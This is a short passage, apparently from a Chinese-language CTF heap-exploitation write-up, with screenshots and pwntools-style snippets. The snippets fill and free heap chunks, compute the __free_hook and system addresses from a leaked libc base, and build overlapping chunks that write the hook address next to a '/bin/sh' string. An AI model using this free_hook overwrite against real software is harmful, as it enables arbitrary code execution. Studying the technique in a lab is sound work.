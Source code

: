[![](assets/1708654729-8fdb70caa002b03e828405eb4ab3e72b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104125-b5265eac-d062-1.png)

```bash
for i in range(10):
    add(i,0x60,'aaaa')

for i in range(9):
    delete(9-i)

delete(2)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
```

然后在构造 chunk 的重叠

[![](assets/1708654729-66a07d18aa5151821defe8598e0999cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104138-bcc2501c-d062-1.png)

```bash
add(5,0x60,'/bin/sh\x00')
add(6,0x60,'aaaa')
add(7,0x60,p64(free_hook))
```
